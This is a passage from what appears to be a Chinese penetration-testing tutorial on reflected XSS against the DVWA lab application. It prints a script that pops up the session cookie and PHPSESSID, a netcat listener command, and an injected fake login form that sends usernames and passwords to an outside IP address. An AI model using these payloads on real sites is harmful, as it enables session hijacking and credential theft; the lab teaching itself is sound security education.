 在这种情况下，我们将执行反射型 XSS 攻击。在这种攻击中，我们将向 Web 应用程序发送一个请求，迫使它显示一些敏感信息。我们将按照以下方式执行攻击：

1.  登录到 DVWA 并点击 XSS Reflected。这个页面的默认操作是简单地`echo`你放入字段中的任何输入。因此，我们将尝试强制应用程序为我们提供诸如`cookie`和`PHPSESSID`之类的信息。

1.  在“你叫什么名字？”字段中，我们将输入一个简单的脚本，它将为我们提供我们正在寻找的`cookie`和`PHPSESSID`数据。输入以下命令：

```
<script>alert(document.cookie);</script>
```

在这个脚本中，我们告诉 Web 应用程序通过提供弹出窗口来**警报**我们。在这里，我们调用`document.cookie`，它将提供当前的`cookie`和`PHPSESSID`值。注意输出；我们现在有了我们想要的`cookie`和`PHPSESSID`值：

![](img/1f023b4e-9cb3-49bb-93f6-4ceba811090b.png)

图 15：使用反射型 XSS 提供敏感数据

现在我们已经获得了所有必需的细节，我们将尝试在这个页面中注入一个表单，以欺骗用户输入他们的凭据。我们还将强制 Web 应用程序将输出发送到其他地方，而不是在屏幕上弹出：

1.  在 Kali Linux 中打开一个终端窗口。我们将使用`nc -lvp 80`命令在端口`80`上创建一个`netcat`简单的 Web 服务器。在这个命令中，我们使用`nc`命令启动`netcat`。`-l`开关用于启用监听模式，`v`用于详细输出，`p`定义我们将监听的端口号。一旦命令被执行，`netcat`将监听连接。

1.  在相同的 XSS Reflected 页面上，输入以下脚本：

```
<h3>Please login to proceed</h3> <form action=http://192.168.34.153>Username:<br><input type="username" name="username"></br>Password:<br><input type="password" name="password"></br><br><input type="submit" value="Logon"></br>
```
